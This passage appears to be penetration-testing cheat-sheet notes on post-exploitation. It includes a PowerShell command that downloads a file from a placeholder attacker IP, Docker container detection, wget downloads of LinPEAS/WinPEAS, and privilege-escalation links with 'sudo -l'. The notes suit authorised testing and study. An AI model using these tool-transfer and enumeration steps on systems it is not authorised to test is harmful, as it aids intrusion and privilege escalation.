 ```bash
powershell.exe Invoke-WebRequest -OutFile $destfile -Uri http://$yourip/$file
```

### Docker Container Enumeration

1. Check if you are in docker container

```bash
$ hostname
a7c367c2113d
```

1. In Docker containerization, file systems are often mounted between the host and a container. Check for file system mounts.

```bash
$ mount
/dev/sda1 on /tmp type ext4 (rw,relatime,errors=remount-ro,data=ordered)
```

1. Double confirm

```bash
df -T /tmp
Filesystem     Type 1K-blocks    Used Available Use% Mounted on
/dev/sda1      ext4  16446332 4431884  11159308  29% /tmp
```

### LinPEAS/WinPEAS

[https://github.com/carlospolop/PEASS-ng/releases/tag/20220508](https://github.com/carlospolop/PEASS-ng/releases/tag/20220508)

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220508/linpeas.sh
```

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220508/winPEASx64.exe
```

### Linux Smart Enumeration Script

An alternative to linPEAS.

[https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

### PrivEsc Guide Linux

[https://www.hackingdream.net/2020/03/linux-privilege-escalation-techniques.html](https://www.hackingdream.net/2020/03/linux-privilege-escalation-techniques.html)

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
sudo -l
```
